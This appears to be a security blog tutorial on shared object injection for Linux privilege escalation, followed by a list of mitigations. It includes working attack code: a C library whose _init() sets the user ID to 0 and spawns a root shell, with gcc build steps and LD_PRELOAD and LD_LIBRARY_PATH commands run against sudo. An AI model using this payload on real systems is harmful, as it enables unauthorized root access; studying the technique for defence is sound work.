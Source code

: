 ```yaml
---
title: "Shared Object Injection"
description: 
date: 2025-01-26T13:50:55Z
image: /post/suid.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","Linux","SUID"]
categories: ["Linux-Privilege-Escalation","SUID-Attacks"]
---
```


### **Shared Object Injection for Privilege Escalation**

**Shared Object (SO) injection** is a technique where an attacker forces a process to load a malicious shared library (.so file) into its memory. When executed, the malicious code in the library runs with the privileges of the target process, potentially leading to privilege escalation if the process has higher privileges (e.g., root).

---

### **How Shared Object Injection Works**

1. **Shared Libraries in Linux**:
    
    - Linux dynamically links shared libraries (`.so` files) at runtime.
    - Applications specify required libraries in their code, and the system's **dynamic linker** loads them when the application starts.
    
1. **Manipulating Library Loading**:
    
    - Attackers can exploit library loading mechanisms, such as modifying environment variables (`LD_PRELOAD`, `LD_LIBRARY_PATH`), or targeting programs that improperly handle library paths.
    
1. **Privilege Escalation**:
    
    - If an attacker can make a root-owned process load their malicious `.so` file, they can execute arbitrary code as root.

---

### **Techniques for Shared Object Injection**

#### 1. **Using `LD_PRELOAD`**:

- The `LD_PRELOAD` environment variable allows users to specify additional shared libraries to be loaded before any others.
- Exploit scenario:
    - A program with `sudo` permissions does not sanitize environment variables.
    - The attacker sets `LD_PRELOAD` to point to their malicious `.so` file.
- Example:
    
    ```bash
    echo 'void _init() { setuid(0); system("/bin/bash"); }' > exploit.c
    gcc -shared -fPIC -o exploit.so exploit.c
    LD_PRELOAD=./exploit.so sudo some-command
    ```
    

#### 2. **Hijacking `LD_LIBRARY_PATH`**:

- `LD_LIBRARY_PATH` specifies directories for the linker to search for shared libraries.
- Exploit scenario:
    - The attacker modifies `LD_LIBRARY_PATH` to include a directory containing malicious libraries.
- Example:
    
    ```bash
    export LD_LIBRARY_PATH=/tmp/malicious:$LD_LIBRARY_PATH
    sudo some-command
    ```
    

#### 3. **Replacing Legitimate Libraries**:

- Replace a shared library on the system with a malicious one.
- Exploit scenario:
    - Insufficient file permissions allow an attacker to overwrite a `.so` file used by a privileged program.

#### 4. **Dynamic Linking Exploits**:

- Exploit applications that dynamically load libraries during execution using functions like `dlopen()` or `dlsym()`.

---

### **Example: Privilege Escalation Using LD_PRELOAD**

1. **Create a Malicious Shared Object**:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    void _init() {
        setuid(0);  // Set the UID to root
        system("/bin/bash");  // Spawn a root shell
    }
    ```
    
    Save this as `exploit.c` and compile:
    
    ```bash
    gcc -fPIC -shared -o exploit.so exploit.c
    ```
    
2. **Set LD_PRELOAD**:
    
    ```bash
    LD_PRELOAD=/path/to/exploit.so sudo some-command
    ```
    
3. **Result**: A root shell is spawned if the target process is vulnerable.
    

---

### **Mitigations Against SO Injection**

1. **Disable `LD_PRELOAD` for SUID Programs**:
    
    - Modern Linux systems ignore `LD_PRELOAD` for SUID binaries to prevent this type of attack.
2. **Restrict `LD_LIBRARY_PATH`**:
    
    - Limit the use of custom library paths in privileged programs.
3. **Secure File Permissions**:
    
    - Ensure shared libraries are owned by root and are not writable by unprivileged users.
4. **Use Static Linking**:
    
    - For critical programs, avoid dynamic linking altogether.
5. **Audit Programs**:
    
    - Identify and fix applications that dynamically load libraries without proper checks.
